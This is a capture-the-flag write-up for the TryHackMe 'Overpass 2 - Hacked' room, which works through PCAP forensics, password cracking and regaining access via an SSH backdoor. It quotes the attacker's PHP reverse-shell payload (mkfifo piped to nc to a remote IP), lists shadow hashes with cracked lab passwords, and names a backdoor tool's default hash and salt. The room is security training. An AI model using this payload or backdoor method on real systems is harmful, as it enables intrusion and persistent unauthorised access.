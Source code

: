 ```yaml
---

title: Box - Overpass 2 - Hacked
published: true
---
```


Overpass has been hacked! Can you analyse the attacker's actions and hack back in?

[https://tryhackme.com/room/overpass2hacked](https://tryhackme.com/room/overpass2hacked)

![](/assets/wireshark.jpg)

* * *

## Task 1 - Forensics - Analyse the PCAP 

- Can you work out how the attacker got in, and hack your way back into Overpass' production server?

- md5sum of PCAP file: 11c3b2e9221865580295bc662c35c6dc

##   Answer the questions below

**What was the URL of the page they used to upload a reverse shell?**

- checking out wireshark we can see a lot of access to /developments/ and an /upload.php which was used to upload payload.php to /developments/upload/payload.php

**What payload did the attacker use to gain access?**

- inspect the 1026 char POST /development/upload.php

```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

**What password did the attacker use to privesc?**

- traverse through wireshark, **follow the TCP Stream**
- james:whenevernoteartinstant

**How did the attacker establish persistence?**

- line 120
- [https://github.com/NinjaJc01/ssh-backdoor](https://github.com/NinjaJc01/ssh-backdoor)

**Using the fasttrack wordlist, how many of the system passwords were crackable?**

- find in wireshark (i didnt note the line :sleeping:)

```shell
/etc/shadow
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```

- crack the hashes

```shell
┌──(0xskar㉿cocokali)-[~/thm/rooms/overpass2hacked]
└─$ john --format=sha512crypt --wordlist=/usr/share/wordlists/fasttrack.txt etc.shadow.hashes 
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secret12         (bee)     
abcd123          (szymex)     
1qaz2wsx         (muirland)     
secuirty3        (paradox)     
4g 0:00:00:00 DONE (2022-06-23 23:00) 6.349g/s 352.3p/s 1761c/s 1761C/s Spring2017..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

* * *

## Task 2 - Research - Analyse the code 

##   Answer the questions below

**What's the default hash for the backdoor?**

- check https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go
- ``bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3``

**What's the hardcoded salt for the backdoor?**

- 1c362db832f3f864c8c2fe05f2002a05

**What was the hash that the attacker used? - go back to the PCAP for this!**

- Follow TCP Stream - Line 3479
- 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

**Crack the hash using rockyou and a cracking tool of your choice. What's the password?**

- ``hash-identifier`` tells us SHA-512 and the main.go tells us sha512 pass:salt
- ``hashcat -h`` tells us to use 1710 sha512($pass.$salt)
- build command ``hashcat -a 0 -m 1710 attacker.salt.hash /usr/share/seclists/Password/rockyou.txt``
- ``november16``

* * *

## Task 3 Attack - Get back in! 

Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again.

There's flags on the box that Overpass can't afford to lose by formatting the server!

##   Answer the questions below

**The attacker defaced the website. What message did they leave as a heading?**

1. Visit Website
2. H4ck3d by CooctusClan

**Using the information you've found previously, hack your way back in!**

1. SSH backdoor is @ port 2222
2. trying to use SSH returns ``no matching host key type found. Their offer: ssh-rsa``
3. googlfu the answer and adding ``HostKeyAlgorithms +ssh-rsa,ssh-dss`` to ``/etc/ssh_config`` lets us connect with james' password. Now for privesc!

```shell
Your identification has been saved in id_rsa.
Your public key has been saved in id_rsa.pub.
The key fingerprint is:
SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58 james@overpass-production
The key's randomart image is:
+---[RSA 2048]----+
|        .. .     |
|       .  +      |
|      o   .=.    |
|     . o  o+.    |
|      + S +.     |
|     =.o %.      |
|    ..*.% =.     |
|    .+.X+*.+     |
|   .oo=++=Eo.    |
+----[SHA256]-----+
```

**What's the user flag?**

- easy just check home

**What's the root flag?**

- nice of them to leave suid :)

* * * 